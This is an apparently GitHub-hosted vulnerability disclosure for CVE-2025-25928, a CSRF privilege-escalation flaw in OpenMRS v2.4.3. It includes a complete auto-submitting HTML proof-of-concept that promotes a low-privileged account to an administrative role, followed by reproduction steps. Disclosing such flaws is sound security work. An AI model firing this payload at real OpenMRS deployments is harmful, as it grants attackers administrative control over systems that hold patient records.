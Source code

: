 # CVE-2025-25928

---

## CSRF PrivEsc


OpenMRS v2.4.3 Build 0ff0ed allows attackers to to execute arbitrary operations via a crafted CSRF PoC. In this case, an attacker could exploit this CSRF to elevate a low-privileged account to an administrative role by leveraging the CSRF vulnerability at the /openmrs/admin/users/user.form endpoint


* Vulnerable Endpoint: /openmrs/admin/users/user.form endpoint
* CSRF PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost:8080/openmrs/admin/users/user.form" method="POST">
      <input type="hidden" name="userId" value="11" />
      <input type="hidden" name="person&#95;id" value="12" />
      <input type="hidden" name="person&#46;names&#91;0&#93;&#46;givenName" value="lowPriv" />
      <input type="hidden" name="person&#46;names&#91;0&#93;&#46;middleName" value="" />
      <input type="hidden" name="person&#46;names&#91;0&#93;&#46;familyName" value="" />
      <input type="hidden" name="person&#46;gender" value="M" />
      <input type="hidden" name="username" value="lowPriv" />
      <input type="hidden" name="userFormPassword" value="Test123&#33;" />
      <input type="hidden" name="confirm" value="Test123&#33;" />
      <input type="hidden" name="roleStrings" value="System&#32;Developer" />
      <input type="hidden" name="secretQuestion" value="" />
      <input type="hidden" name="secretAnswer" value="" />
      <input type="hidden" name="property" value="loginAttempts" />
      <input type="hidden" name="value" value="0" />
      <input type="hidden" name="property" value="lockoutTimestamp" />
      <input type="hidden" name="value" value="" />
      <input type="hidden" name="action" value="Save&#32;User" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

### Steps to reproduce:

1.) Observe the user lowPriv has the role anonymous:

 ![image](https://github.com/user-attachments/assets/4fa4922e-ee24-44dd-9808-44566bc346c9)

lowPriv user:

![image](https://github.com/user-attachments/assets/62aa5116-879f-4cf5-9a11-377bbc0eff71)


2.) Execute the following CSRF PoC within the Admin users browser, and observe the lowPriv user is now an Admin.

![image](https://github.com/user-attachments/assets/ef2d4cdf-2469-43ab-aa54-11e09dbf942f)

lowPriv user accessing Admin:

 ![image](https://github.com/user-attachments/assets/73369363-6370-4914-a4cf-b9f9c5d0a5ce)


NOTE: sign in / out of the application as the LowPriv user for the changes to take affect 




